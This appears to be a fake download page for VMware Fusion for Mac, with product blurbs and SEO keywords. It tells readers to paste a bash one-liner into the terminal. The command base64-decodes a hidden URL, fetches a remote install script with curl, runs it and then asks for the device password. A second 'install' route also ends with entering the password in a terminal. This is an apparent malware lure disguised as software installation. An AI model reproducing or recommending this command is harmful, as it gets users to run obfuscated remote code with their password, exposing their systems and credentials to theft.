 # VMware Fusion for Mac Download - Virtual Machine Software for macOS

![VMware Fusion Screenshot 1](https://assets.paulyu.dev/articles/2024/vmware-fusion-install/laptop-fusion.png)

---

## 🔽 Download VMware Fusion for Mac

[![Download Now](https://img.shields.io/badge/Download_VMWareFusion-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/vmwarefusion)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is VMware Fusion for Mac?

VMware Fusion is a powerful virtual machine software for macOS, allowing users to run Windows, Linux, and other operating systems alongside macOS. It is widely used by developers, IT professionals, and businesses for testing, development, and legacy software support. VMware Fusion offers unmatched performance and compatibility, making it the go-to choice for virtualization on Mac.

With VMware Fusion, you can create and manage multiple virtual machines, allocate system resources, and even run 3D graphics-intensive applications. The software supports DirectX 11 and OpenGL 4.1, ensuring smooth performance for gaming and professional applications. VMware Fusion also includes features like snapshots, shared folders, and seamless mode, which integrates Windows apps into the macOS desktop.

Optimized for Apple Silicon (M1/M2 chips) and Intel-based Macs, VMware Fusion delivers fast and reliable performance. Whether you're running a single VM or a complex multi-machine setup, VMware Fusion provides the tools you need to get the job done.

![VMware Fusion Screenshot 2](https://9to5mac.com/wp-content/uploads/sites/6/2022/11/wmware-fusion.jpg)

---

## Key Features & Benefits

- 🖥 Run Windows, Linux, and more on macOS  
- ⚡️ Optimized for Apple Silicon and Intel Macs  
- 🎮 Supports DirectX 11 and OpenGL 4.1  
- 🔄 Snapshots and shared folders  
- 🌐 Seamless mode for integrated apps  
- 💻 Perfect for developers and IT professionals  

VMware Fusion is the ultimate virtualization solution for macOS, offering power and flexibility.

---

## 🔍 Keywords

VMware Fusion for Mac, VMware Fusion Mac Download, VMware Fusion for Mac Download, VMware Fusion Mac, VMware Fusion Download Mac, VMware Fusion Download for Mac, vmware fusion full version, Mac Download VMware Fusion, Download Mac VMware Fusion, Download VMware Fusion Mac, Download VMware Fusion for Mac
